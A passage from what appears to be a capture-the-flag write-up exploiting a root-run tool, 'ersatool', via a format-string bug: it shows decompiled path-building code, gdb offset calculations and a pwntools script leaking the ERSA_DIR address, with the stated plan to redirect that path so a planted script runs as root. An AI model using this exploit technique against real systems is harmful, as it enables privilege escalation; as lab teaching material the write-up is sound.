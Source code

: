

     94     memset(EASYRSA,0,sizeof(EASYRSA));
     95     strcat(EASYRSA,ERSA_DIR);
     96     strcat(EASYRSA,"/easyrsa");



Basically it's the global `ERSA_DIR` + "/easyrsa". This means that if I
can overwrite the `ERSA_DIR` variable with a different path that I can
write to, I can drop a Bash script named `easyrsa` to that dir and it
will be run as root.

I will need to switch to running the tool in interactive mode, with no
arguments, so that I can overwrite the memory with the `printCN` call,
and then trigger it with `createCN`.

#### Script Leak

I want to leak the address of `ERSA_DIR`, which means I need to know the
offset from `ETX`. In `gdb` I can print both addresses:



    gdb-peda$ x/s &EXT
    0x55555555915f <EXT>:   ".ovpn"
    gdb-peda$ x/s &ERSA_DIR
    0x5555555590f0 <ERSA_DIR>:      "/opt/easyrsa"



Or I can just print the difference:



    gdb-peda$ p &EXT - &ERSA_DIR
    warning: Type size unknown, assuming 1. Try casting to a known type, or void *.
    $9 = 0x6f



I'll start a script that will handle using the format vuln to leak the
address of `ERSA_DIR`:



    #!/usr/bin/env python3

    from pwn import *


    p = process('./ersatool')

    p.recv(64)               # read # prompt
    p.sendline(b"print")     # enter print menu
    p.recvuntil(b"CN=")      # read up to CN= prompt
    p.sendline(b"%016p")     # get first pointer from the stack
    leak = p.recv(1024)    
    ext_addr = int(leak.split(b'[')[0], 16)    
    ersa_dir_addr = ext_addr - 0x6f    

    log.success(f'Leaked EXT address:          0x{ext_addr:016x}')    
    log.success(f'Calculated ERSA_DIR address: 0x{ersa_dir_addr:016x}')       
